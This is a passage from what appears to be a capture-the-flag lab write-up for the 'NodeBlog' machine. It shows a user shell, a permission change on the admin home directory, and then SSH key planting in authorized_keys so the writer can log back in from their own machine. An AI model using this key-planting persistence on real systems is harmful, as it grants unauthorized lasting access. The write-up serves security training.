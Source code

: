 ```bash
chmod +x /home/admin/
admin@nodeblog:/home$ cd /home/admin
cd /home/admin
admin@nodeblog:~$ ls
ls
user.txt
```
We obtained a user shell, at first, we didn't have permission to access admin but we changed them with `chmod +x /home/admin` and now we can access it.
```bash
admin@nodeblog:~$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/admin/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Created directory '/home/admin/.ssh'.
Your identification has been saved in /home/admin/.ssh/id_rsa
Your public key has been saved in /home/admin/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:4WMwmXHIfKsRLZtRPDa0TWLbHy4pdCpOM3geD+VLyD0 admin@nodeblog
The key\'s randomart image is:
+---[RSA 3072]----+
|     o.** .      |
|      B*BB       |
|      =O*++ .    |
|     o+X.+ + .   |
|    . @oE o o    |
|     =.X = .     |
|      o o        |
|                 |
|                 |
+----[SHA256]-----+
admin@nodeblog:~$ cp .ssh/id_rsa.pub .ssh/authorized_keys
cp .ssh/id_rsa.pub .ssh/authorized_keys
# My machine
❯ echo "-----BEGIN OPENSSH PRIVATE KEY-----
-----END OPENSSH PRIVATE KEY-----" > Results/id_rsa
❯ chmod 600 Results/id_rsa
❯ ssh -i Results/id_rsa admin@10.10.11.139
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Jan  4 16:33:21 2022
admin@nodeblog:~$ 
```

